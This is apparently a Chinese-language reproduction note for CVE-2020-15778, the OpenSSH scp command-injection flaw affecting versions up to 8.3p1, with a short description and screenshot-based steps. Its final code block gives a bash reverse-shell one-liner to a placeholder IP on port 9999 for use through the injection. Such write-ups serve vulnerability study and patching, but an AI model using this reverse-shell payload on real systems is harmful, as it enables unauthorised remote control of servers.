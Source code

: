# OpenSSH 命令注入漏洞 CVE-2020-15778

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

```
OpenSSH <= 8.3p1
```

## 漏洞复现

可用于目标不允许远程登录但SCP开启的情况下远程命令执行

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![image-20220209125535740](images/202202091255788.png)

执行命令 ping dnslog



![image-20220209125550216](images/202202091255296.png)



反弹shell 更换命令即可

```plain
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```